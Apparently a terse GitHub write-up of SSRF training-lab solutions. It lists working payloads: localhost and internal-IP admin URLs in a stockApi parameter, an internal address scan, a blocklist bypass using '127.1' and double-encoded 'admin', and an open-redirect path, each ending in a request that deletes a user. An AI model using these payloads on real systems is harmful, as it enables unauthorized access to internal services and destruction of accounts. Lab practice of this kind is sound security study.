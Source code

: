 # SSRF

---


## lab 1


- > open product and click check stock
  - > in request you find ``stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1``
    > change it to ``stockApi=http://localhost/admin&storeId=3``
    > stockApi=http://localhost/admin/delete?username=carlos&storeId=3



---

## lab 2


- > ``http://192.168.0.1:8080/product/stock/check?productId=4&storeId=1``   send it to intruder 182.168.0.``1``
  > found 192.168.0.239   fond it **``404``**
- > http://192.168.0.239:8080/admin
  > http://192.168.0.239:8080/admin/delete?username=carlos




---


## lab 3


- > need ``colaborator``




---


## lab 4


- > try to chnge url to ``http://127.0.0.1/admin`` and it blocked
  > try ``http://127.1/`` it work
  > try ``http://127.1/admin`` it blocked again
  > try ``http://127.1/%2561dmin``
  > http://127.1/%2561dmin/delete?username=carlos




---

## lab 5

- > **/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos**
  










    
